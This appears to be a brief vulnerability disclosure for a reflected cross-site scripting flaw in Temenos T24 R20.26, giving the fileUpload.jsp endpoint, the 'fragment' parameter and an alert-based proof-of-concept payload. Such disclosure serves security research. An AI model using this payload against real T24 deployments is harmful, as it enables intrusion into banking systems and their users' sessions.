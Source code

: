 # Reflected-XSS-T24
In Temenos T24 R20.26, I found Reflected-XSS fileUpload.jsp
Reproduce bug:
Send request to https://{url}/BrowserWeb/jsps/fileUpload.jsp with payload xss in 'fragment' parameter
Payload : "><img src=1 onerror=alert(1337)>
